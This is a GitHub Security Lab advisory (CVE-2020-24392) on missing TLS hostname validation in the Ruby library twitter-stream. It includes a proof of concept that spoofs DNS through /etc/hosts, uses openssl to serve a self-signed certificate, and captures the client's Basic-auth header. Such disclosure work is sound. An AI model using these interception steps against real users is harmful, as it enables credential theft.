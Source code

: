 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">September 22, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-097: Missing hostname validation in twitter-stream - CVE-2020-24392</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/agustingianni">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/102623?s=35" height="35" width="35">
        <span>Agustin Gianni</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>Missing hostname validation allows an attacker to perform a monster in the middle attack against users of the library.</p>

<h2 id="product">Product</h2>

<p>twitter-stream</p>

<h2 id="tested-version">Tested Version</h2>

<p>v0.1.16</p>

<h2 id="details">Details</h2>

<h3 id="missing-ssltls-certificate-hostname-validation">Missing SSL/TLS certificate hostname validation</h3>

<p><a href="https://github.com/voloko/twitter-stream">twitter-stream</a> uses the library <a href="https://github.com/eventmachine/eventmachine">eventmachine</a> in an insecure way that allows an attacker to perform a monster in the middle attack against users of the library.</p>

<h4 id="impact">Impact</h4>

<p>An attacker can assume the identity of a trusted server and introduce malicious data in an otherwise trusted place.</p>

<h4 id="resources">Resources</h4>

<p>To trigger the vulnerability, a simple TLS enabled listening daemon is sufficient as described in the following snippets.</p>

<div class="language-sh highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="c"># Add a fake DNS entry to /etc/hosts.</span>
<span class="nv">$ </span><span class="nb">echo</span> <span class="s2">"127.0.0.1 stream.twitter.com"</span> | <span class="nb">sudo tee</span> <span class="nt">-a</span> /etc/hosts

<span class="c"># Create a certificate.</span>
<span class="nv">$ </span>openssl req <span class="nt">-x509</span> <span class="nt">-newkey</span> rsa:2048 <span class="nt">-keyout</span> key.pem <span class="nt">-out</span> cert.pem <span class="nt">-days</span> 365 <span class="nt">-nodes</span>

<span class="c"># Listen on port 443 with TLS enabled.</span>
<span class="nv">$ </span>openssl s_server <span class="nt">-key</span> key.pem <span class="nt">-cert</span> cert.pem <span class="nt">-accept</span> 443
Using auto DH parameters
Using default temp ECDH parameters
ACCEPT
<span class="nt">-----BEGIN</span> SSL SESSION PARAMETERS-----
MFUCAQECAgMDBALAMAQABDA8sOGZJ/8QVTADQf38uAXiF6Xc5PINHnMmvdNyq0yo
jAj9mTtgTMHOckoAKGTZCh6hBgIEXsJY6qIEAgIcIKQGBAQBAAAA
<span class="nt">-----END</span> SSL SESSION PARAMETERS-----
Shared ciphers:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384:DHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-CHACHA20-POLY1305:ECDHE-RSA-CHACHA20-POLY1305:DHE-RSA-CHACHA20-POLY1305:ECDHE-ECDSA-AES256-SHA384:ECDHE-RSA-AES256-SHA384:DHE-RSA-AES256-SHA256:DHE-RSA-CAMELLIA256-SHA256:ECDHE-ECDSA-AES256-SHA:ECDHE-RSA-AES256-SHA:DHE-RSA-AES256-SHA:DHE-RSA-CAMELLIA256-SHA:AES256-GCM-SHA384:AES256-SHA256:CAMELLIA256-SHA256:AES256-SHA:CAMELLIA256-SHA:ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:DHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES128-SHA256:ECDHE-RSA-AES128-SHA256:DHE-RSA-AES128-SHA256:DHE-RSA-CAMELLIA128-SHA256:ECDHE-ECDSA-AES128-SHA:ECDHE-RSA-AES128-SHA:DHE-RSA-AES128-SHA:DHE-RSA-CAMELLIA128-SHA:AES128-GCM-SHA256:AES128-SHA256:CAMELLIA128-SHA256:AES128-SHA:CAMELLIA128-SHA
CIPHER is ECDHE-RSA-AES256-GCM-SHA384
Secure Renegotiation IS supported
GET /1.1/statuses/filter.json HTTP/1.1
Host: stream.twitter.com
Accept: <span class="k">*</span>/<span class="k">*</span>
User-Agent: TwitterStream
Authorization: Basic <span class="nv">VVNFUk5BTUU6U0VDUkVUUEFTU1dPUkQ</span><span class="o">=</span>
</code></pre></div></div>

<p>Create a sample client with the following contents:</p>

<div class="language-ruby highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nb">require</span> <span class="s1">'rubygems'</span>
<span class="nb">require</span> <span class="s1">'twitter/json_stream'</span>

<span class="no">EventMachine</span><span class="o">::</span><span class="n">run</span> <span class="p">{</span>
  <span class="n">stream</span> <span class="o">=</span> <span class="no">Twitter</span><span class="o">::</span><span class="no">JSONStream</span><span class="p">.</span><span class="nf">connect</span><span class="p">(</span>
    <span class="ss">:path</span>    <span class="o">=&gt;</span> <span class="s1">'/1.1/statuses/filter.json'</span><span class="p">,</span>
    <span class="ss">:auth</span>    <span class="o">=&gt;</span> <span class="s1">'USERNAME:SECRETPASSWORD'</span>
  <span class="p">)</span>

  <span class="n">stream</span><span class="p">.</span><span class="nf">each_item</span> <span class="k">do</span> <span class="o">|</span><span class="n">item</span><span class="o">|</span>
  <span class="k">end</span>

  <span class="n">stream</span><span class="p">.</span><span class="nf">on_error</span> <span class="k">do</span> <span class="o">|</span><span class="n">message</span><span class="o">|</span>
  <span class="k">end</span>

  <span class="n">stream</span><span class="p">.</span><span class="nf">on_max_reconnects</span> <span class="k">do</span> <span class="o">|</span><span class="n">timeout</span><span class="p">,</span> <span class="n">retries</span><span class="o">|</span>
  <span class="k">end</span>

  <span class="n">stream</span><span class="p">.</span><span class="nf">on_no_data</span> <span class="k">do</span>
  <span class="k">end</span>
<span class="p">}</span>
</code></pre></div></div>

<p>Run the example client to see a connection being performed in the listening daemon initialized in the previous steps.</p>

<div class="language-sh highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nv">$ </span>ruby twitter-stream.rb
</code></pre></div></div>

<h4 id="references">References</h4>

<p><a href="https://cwe.mitre.org/data/definitions/297.html">CWE-297: Improper Validation of Certificate with Host Mismatch</a></p>

<h2 id="cve">CVE</h2>
<p>CVE-2020-24392</p>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>18/05/2020: Report sent to Vendor</li>
  <li>24/08/2020: Coordinated disclosure deadline expired, no maintainer response</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/agustingianni">@agustingianni (Agustin Gianni)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include the <code class="language-plaintext highlighter-rouge">GHSL-2020-097</code> in any communication regarding this issue.</p>

    